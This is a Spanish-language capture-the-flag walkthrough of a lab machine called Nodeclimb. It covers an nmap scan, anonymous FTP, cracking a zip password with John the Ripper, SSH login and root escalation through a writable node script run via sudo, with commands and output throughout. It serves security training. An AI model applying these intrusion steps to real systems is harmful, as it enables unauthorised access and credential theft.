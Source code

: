 # Máquina Nodeclimb

- Nivel fácil

## Escaneo de puertos

<p> Comenzamos por hacer un ping a la máquina víctima para confirmar que esta encendida </p>

```shell
ping -c 1 172.17.0.2

```

```shell

PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.066 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.066/0.066/0.066/0.000 ms

```
<p>La máquina esta encendida y funciona correctamente.</p>

<p>Ahora procedemos al escaneo de puertos mediante nmap</p>

```shell
sudo nmap -p- --open -sS -sCV -vvv -n -Pn 172.17.0.2

```

```shell

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 21:46 CET
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Initiating ARP Ping Scan at 21:46
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 21:46, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:46
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 21:46, 1.42s elapsed (65535 total ports)
Initiating Service scan at 21:46
Scanning 2 services on 172.17.0.2
Completed Service scan at 21:46, 0.02s elapsed (2 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:46
NSE: [ftp-bounce 172.17.0.2:21] PORT response: 500 Illegal PORT command.
Completed NSE at 21:46, 0.28s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.04s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000090s latency).
Scanned at 2025-02-11 21:46:39 CET for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIIJXdsH3BqdecsOrKH3q6AQI9zJxHexsJHT+Kam8R4WWmg8g0o7s75qwSx6YvfhFptiXDYcMT6hq7VNs4YnuUg=
|   256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIEGiHc4ywr2G/gO3ihoB+r77LxHnCWOkdfc3n0BiZLQ
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.50 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```
<p>El escaneo nos arroja un dato interesante, el puerto de ftp esta abierto y permite la identificación anónima</p>

## Busqueda por FTP

<p>Probamos a realizar un login anónimo</p>

```shell
ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

```

<p>Buscamos a que archivos podemos acceder</p>

```shell
ftp> ls
229 Entering Extended Passive Mode (|||34125|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip

```
<p>Vemos una carpeta comprimida, vamos a descargarla para ver que contiene</p>

```shel
ftp> get secretitopicaron.zip

```
<p>Descompromimos la carpeta</p>

```shell

unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: 
password incorrect--reenter: 
   skipping: password.txt            incorrect password

```
<p>Nos muestra que el comprimido esta protegido por una contraseña.</p>

<p>Tratamos de acceder a él buscando la contraseña por fuerza bruta.</p>

```shell
zip2john secretitopicaron.zip > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

```shell
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-02-11 22:01) 5.000g/s 122880p/s 122880c/s 122880C/s 123456..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<p>Mediante la herramienta John the Ripper obtenemos que la contraseña del zip es "password1" por lo que provamos a descomprimirla de nuevo.</p>

```shell
unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: 
 extracting: password.txt
```

<p>Dentro del comprimodo se encuentra un archivo llamado "password.txt" con el siguiente contenido "mario:laKontraseñAmasmalotaHdelbarrioH"</p>

## Conexión por ssh

<p>Aprovechando estas credenciales nos tratamos de conectar por ssh</p>

```shell
ssh mario@172.17.0.2
```
<p>Tras esto ganamos acceso a la máquina como el usuario mario</p>

## Escalada de privilegios

<p>Buscamos privilegios que podamos explotar.</p>

```shell
sudo -l
```

```shell
Matching Defaults entries for mario on b508f6fb807e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on b508f6fb807e:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```
```shell
mario@b508f6fb807e:~$ ls -l
total 0
-rw-r--r-- 1 mario mario 0 Jul  5  2024 script.js

```
<p>Como podemos observar podemos ejecutar un archivo llamado script.js con node teniendo privilegios de root sin contraseña, además, tenemos permiso edición del archivo por lo que trataremos de llevar por aqui la escalada</p>

<p>Cargamos el siguiente script en script.js</p>

```java
const { spawn } = require("child_process");

spawn("/bin/bash", { stdio: "inherit" });

```
<p>Este script genera una shell mediante un proceso asíncrono y la redirige a nuestra salida.</p>

<p>Ejecutamos el programa como el usuario root.</p>

```shell
sudo -u root /usr/bin/node /home/mario/script.js
```
<p>Como podemos observar hemos obtenido una shell con una sesión del usuario root.</p>

```shell
root@b508f6fb807e:/home/mario# whoami
root

```
